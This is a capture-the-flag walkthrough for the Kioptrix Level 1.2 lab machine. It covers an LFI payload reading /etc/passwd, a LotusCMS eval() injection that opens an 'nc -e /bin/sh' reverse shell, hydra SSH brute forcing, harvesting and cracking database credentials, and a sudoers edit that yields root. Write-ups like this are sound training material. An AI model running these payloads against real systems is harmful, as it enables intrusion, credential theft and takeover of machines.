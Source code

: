 #  Kioptrix: Level 1.2 (#3)

## Recon & Enummeration

Nmap shows us 
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Ligoat Security - Got Goat? Security ...
MAC Address: 08:00:27:AC:D2:A2 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On the blog we find a possible username `loneferret` at `/index.php?system=Blog&post=1281005380`. We also note a comment section


## Intitial Foothold

### LFI

`/index.php?system=../../../../../../../etc/passwd%00.`

2 users: 
- `loneferret` 
- `dreg`

### LotusCMS 3.0 eval() RCE

metasploit didn't work, manually:

```
IP=10.10.10.4
PORT=1234
target=http://10.10.10.7
curl $target/index.php --data "page=index%27%29%3B%24%7Bsystem%28%27nc%20-e%20%2fbin%2fsh%20$IP%20$PORT%27%29%7D%3B%23%22"
```

## Privilege Escalation

### Bruteforcing

First we start a bruteforce on SSH for the loneferret user:

```
 hydra -l loneferret -P /usr/share/wordlists/rockyou.txt 10.10.10.7 -t 4 ssh
```

resulting in:

`[22][ssh] host: 10.10.10.7   login: loneferret   password: starwars`

### MySql Password Hashes

Let's look for passwords in the web config:
```
www-data@Kioptrix3:/home/www/kioptrix3.com$ grep -R password ./ | grep mysql
```

We find the Database login creds:
```
$GLOBALS["gallarific_mysql_server"] = "localhost";
$GLOBALS["gallarific_mysql_database"] = "gallery";
$GLOBALS["gallarific_mysql_username"] = "root";
$GLOBALS["gallarific_mysql_password"] = "fuckeyou";
```
in phpmyadmin we can find 2 hashes in the devaccounts table:
```
1 	dreg 	0d3eccfb887aabd50f243b3f155c0f85
2 	loneferret 	5badcaf789d3d1d09794d8f021f40f0e
```
The MD5 hashes are available on crackstation.net:
| Hash |	Type	| Result
| -- |---| ---|
0d3eccfb887aabd50f243b3f155c0f85|	md5|   Mast3r
5badcaf789d3d1d09794d8f021f40f0e|	md5|   starwars

### Modifying /etc/sudoers through ht


Modify `/etc/sudoers` via ht, and add the binary  `/bin/su` to loneferret's line
```
sudo -u root ht
sudo su
id
uid=0(root) gid=0(root) groups=0(root)
```





